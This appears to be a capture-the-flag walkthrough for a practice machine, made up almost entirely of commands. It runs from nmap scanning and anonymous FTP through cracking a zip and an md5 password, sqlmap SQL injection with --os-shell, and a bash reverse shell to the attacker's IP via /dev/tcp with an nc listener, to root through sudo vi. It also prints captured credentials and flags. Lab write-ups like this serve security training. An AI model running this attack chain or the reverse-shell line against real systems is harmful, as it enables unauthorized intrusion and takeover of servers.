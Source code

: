 # Enumerate services with `nmap 10.129.251.16 -p1-1000 -sC -sV`
```
21 ftp
```

# Log to ftp and extract the file
```
log with 'anonymous'
password is blank or 'anonymous'

ls
get backup.zip
```

# Unzip backup.zip
```
unzip backup.zip [requires password]
john2zip backup.zip > hash
john --wordlist=~/Wordlists/rockyou.txt hash
```

# Check `index.php`
```
if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3")
after brute forcing the md5 hash finding that the password is 'qwerty789'
```

# Enter the website and try to search something
```
find the url get variable `search`
http://10.129.251.16/dashboard.php?search=<field>
```

# One Terminal
```
python3 ./sqlmap.py -u http://10.129.251.16/dashboard.php?search=random --cookie="PHPSESSID=l65vchd80b8mademtsqvn774f9" --os-shell
bash -c "bash -i >& /dev/tcp/10.10.15.204/9999 0>&1"
```

# Second Terminal
```
nc -lnvp 9999
python3 -c 'import pty;pty.spawn("/bin/bash")'
[Ctrl + Z]
stty raw -echo
fg
export XTERM=xterm
```

# user.txt
```
ec9b13ca4d6229cd5cc1e09980965bf7
```

# At /var/www/html/dashboard.php | grep postgress
```php
$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
```

# Exec `sudo -l`
```
(ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

## Use !sh to privesc..

# root.txt
```
dd6e058e814260bc70e9bbdef2715849
```